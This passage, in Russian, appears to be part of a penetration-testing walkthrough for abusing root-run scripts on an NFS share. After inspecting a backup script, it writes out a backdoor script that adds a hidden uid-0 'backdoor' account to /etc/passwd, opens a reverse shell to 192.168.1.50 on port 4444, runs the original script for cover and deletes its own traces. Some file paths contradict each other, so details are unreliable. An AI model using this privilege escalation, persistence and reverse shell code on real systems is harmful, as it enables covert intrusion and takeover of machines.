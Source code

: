 #### Шаг 3: Анализ содержимого
> Найти скрипты, выполняемые с привилегиями root.
```bash
# Исследование скриптов
ls -la /mnt/nfs_scripts
# Вывод:
# total 16
# -rwxr-xr-x 1 0 0  120 Jun 10 08:00 daily_backup.sh
# -rwxr-xr-x 1 0 0   78 Jun 05 09:00 weekly_cleanup.sh


# Просмотр скрипта резервного копирования
cat /mnt/nfs_scripts/daily_backup.sh
# Вывод:
#!/bin/bash
# tar -czf /backups/daily-$(date +%F).tar.gz /data
# find /backups -mtime +7 -delete
```

**Пояснения:**
1. `ls -la`: Показать подробный список файлов с владельцами
2. `cat`: Просмотреть содержимое скрипта резервного копирования
   - Скрипты, принадлежащие root
   - Скрипты, выполняемые по расписанию
   - Скрипты с правами на выполнение (x)

**Результат:**  
Скрипт `daily_backup.sh` выполняется ежедневно от имени `root` и делает резервные копии данных.

---

#### Шаг 4: Подготовка вредоносного скрипта (Execution)
> Создать скрипт, который даст контроль над системой.
```bash
# Код скрипта
cat << 'EOF' | sudo tee /mnt/nfs_scripts/evil_backdoor.sh
#!/bin/bash

# 1. Добавление скрытого пользователя (пароль P@ssw0rd)
echo "backdoor:\$6\$salt\$hash:0:0:root:/root:/bin/bash" >> /etc/passwd

# 2. Обратный шелл для немедленного доступа
bash -c "bash -i >& /dev/tcp/192.168.1.50/4444 0>&1" &

# 3. Выполнение оригинального скрипта
/bin/bash /scripts/daily_backup.sh.orig

# 4. Удаление следов
rm /scripts/evil_backdoor.sh
mv /scripts/daily_backup.sh.orig /scripts/daily_backup.sh
EOF
```
